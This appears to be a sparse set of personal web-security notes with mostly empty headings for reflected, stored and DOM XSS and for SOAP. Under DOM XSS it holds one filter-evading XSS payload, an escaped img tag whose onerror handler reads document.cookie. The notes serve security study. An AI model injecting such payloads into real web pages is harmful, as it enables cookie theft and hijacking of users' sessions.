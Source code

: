 # XSS
***
## Reflected XSS
***
## Stored XSS
***
## DOM XSS
***
### ==Payload:== #"><i\mg src=/ onerror=alert(document.cookie)>
# SOAP
***
